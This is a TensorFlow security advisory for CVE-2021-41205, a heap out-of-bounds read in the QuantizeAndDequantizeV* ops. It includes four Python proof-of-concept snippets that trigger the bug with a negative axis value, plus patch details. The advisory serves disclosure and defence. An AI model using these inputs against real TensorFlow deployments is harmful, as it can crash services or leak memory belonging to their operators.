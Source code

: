 ## TFSA-2021-185: Heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops

### CVE Number
CVE-2021-41205

### Impact
The [shape inference functions for the `QuantizeAndDequantizeV*` operations](https://github.com/galeone/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/array_ops.cc) can trigger a read outside of bounds of heap allocated array as illustrated in the following sets of PoCs:

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4Grad(
    gradients=[1.0,1.0],
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV3(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV2(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

In all of these cases, `axis` is a negative value different than the special
value used for optional/unknown dimensions (i.e., -1). However, the code ignores
the occurrences of these values:

```cc
...
if (axis != -1) {
  ...
  c->Dim(input, axis);
  ...
}
```

### Patches
We have patched the issue in GitHub commit [7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d](https://github.com/galeone/tensorflow/commit/7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
